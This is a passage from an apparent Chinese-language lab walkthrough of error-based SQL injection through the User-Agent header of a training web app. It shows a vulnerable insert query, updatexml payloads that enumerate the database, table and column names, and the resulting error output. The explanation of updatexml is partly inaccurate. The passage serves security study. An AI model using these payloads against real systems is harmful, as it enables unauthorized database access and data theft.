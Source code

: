    ```sql
   $query="insert httpinfo(userid,ipaddress,useragent,httpaccept,remoteport) values('$is_login_id','$remoteipadd','$useragent','$httpaccept','$remoteport')";
   ```

   所以为了闭合后面的符号 `'`，sql注入语句的后面使用了 `or '`：

   ```sql
   ('$is_login_id','$remoteipadd','hackhuang' or updatexml(1,concat(0x7e,(select database()),0x7e),1) or '','$httpaccept','$remoteport')
   ```

   **注2：解释 updatexml(1,concat(0x7e,(select database()),0x7e),1)**？

   ```sql
   这个SQL语句利用了UPDATEXML函数的一个特殊用法，通常被用在SQL注入攻击中，来提取数据库的信息。UPDATEXML是一个SQL函数，原意是用于更新XML类型的字段，但是由于其内部处理机制，它可以被滥用为提取数据的手段。
   
   UPDATEXML函数的语法是UPDATEXML(xml_document, xpath, new_value)。在上述语句中，UPDATEXML函数被用作：
   UPDATEXML(1, CONCAT(0x7e, (SELECT DATABASE()), 0x7e), 1)
   
   这里的1作为xml_document和new_value参数，实际上并没有实际的XML文档被更新。CONCAT(0x7e, (SELECT DATABASE()), 0x7e)这部分用于构造一个XML格式的字符串，其中0x7e是十六进制表示的波浪线字符~。
   
   (SELECT DATABASE())部分执行一个查询，返回当前数据库的名称。整个CONCAT表达式将数据库名称包裹在两个波浪线~之间，形成如下格式的字符串：~database_name~。
   
   由于UPDATEXML函数需要返回一个XML文档，所以即使xml_document和new_value参数都是1，它仍然会尝试将CONCAT的结果转换为XML格式。这个转换过程会将字符串~database_name~以XML格式输出，通常会被查询语句的输出捕获。
   ```

3. 获取数据库表名称：

   ```sql
   User-Agent: hack' or updatexml(1,(select group_concat(table_name) from information_schema.tables where table_schema=database()),1) or '
   ```

   ```sql
   网页显示：XPATH syntax error: ',member,message,users,xssblind'
   ```

   但问题来了，其实数据库表并没有显示完整，完整的数据库表名信息应为：`httpinfo,member,message,users,xssblind`，这很奇怪，排除函数 group_concat 返回值长度受限的情况，很大可能是因为 updatexml 函数返回值受限！！！至于怎么解决，还没想到好的方法，❌但目前可以通过下述 sql 注入语句来获取表名的前半段信息：

   ```sql
   User-Agent: hack' or updatexml(1,concat(0x7e,substr((select group_concat(table_name) from information_schema.tables where table_schema=database()),1,31),0x7e),1) or '
   ```

   ```sql
   网页显示：XPATH syntax error: '~httpinfo,member,message,users,x'
   ```

   ==> 所以可得：所有数据表名信息为：`httpinfo, member, message, users, xssblind`

4. 获取表的列名信息：

   ```sql
   User-Agent: hack' or updatexml(1,(select group_concat(column_name) from information_schema.columns where table_name='users'),1) or '
   ```
